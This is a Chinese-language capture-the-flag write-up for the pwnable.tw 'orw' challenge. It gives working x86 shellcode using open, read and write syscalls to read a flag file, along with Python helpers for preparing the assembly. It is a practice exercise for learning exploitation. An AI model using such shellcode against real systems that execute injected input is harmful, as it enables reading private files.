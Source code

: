 # pwnable.tw 0x1 orw writeup

> 地址：[https://pwnable.tw/challenge/#2](https://pwnable.tw/challenge/#2)

<!--more-->

## 分析

扔到 Linux 虚拟机里执行一下，提示：`Give my your shellcode:`（应该是 "Give me your shellcode"），结合题目提示：

```
Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.
```

所以解题思路应该是用编写 shellcode，利用 `open`、`read`、`write` 这三个 syscall 读取 `/home/orw/flag` 中的内容。
看反汇编内容也印证了这一猜想：在获取用户输入之后，直接把输入当作指令执行了
![-w1097](https://i.loli.net/2019/02/13/5c6413f403283.jpg)


## PWN

下面开始编写 shellcode。先从 C 语言的角度考虑如何实现，伪代码如下：

```c
int fd = open("/home/orw/flag", 0, 0); // 打开文件
read(fd, buffer, count);  // 读取内容
write(1, buffer, count);  // 写到 stdout
```

所以 参考 [Linux System Call Table](https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls32.html) 整理成汇编代码：

```asm
; open
xor ecx, ecx     ; ecx = 0
xor edx, edx     ; edx = 0
push ecx         ; 字符串终止符
push 0x67616c66  ; "flag"
push 0x2f2f7772  ; "rw//"
push 0x6f2f2f65  ; "e//o"
push 0x6d6f682f  ; "/hom"
mov ebx, esp     ; ebx = esp, 文件路径
mov eax, 0x5     ; syscall number 5, sys_open
int 0x80         ; call

; read
mov ebx, eax  ; fd
mov ecx, esp  ; buffer
mov edx, 0x30 ; size
mov eax, 0x3  ; read
int 0x80      ; call

; write
mov ebx, 0x1  ; stdout
mov eax, 0x4  ; write
int 0x80      ; call
```

##  附录1
鉴于 `pwntools` 中 `asm()` 方法不支持注释，而我又比较喜欢写注释，所以写了一个简单的 python 函数来处理汇编代码中的注释：

```python
import re

re_pure_asm = re.compile('^(.+?)(?=;)')

def pure_asm(string):
    lines = []
    for line in string.splitlines():
        result = re_pure_asm.findall(line)
        if len(result) > 0:
            lines.append(result[0].strip())
    return '\n'.join(lines)
```

## 附录2
为了比较方便的把 `flag` 这样的字符串转换成 `0x67616c66` 这样的 16进制小端数值，也写了一个简单的 python 方法：

```python
def convert_str_to_hex(string):
    parts = []
    for ch in string:
        parts.insert(0, format(ord(ch), 'x'))
    return '0x' + ''.join(parts)
```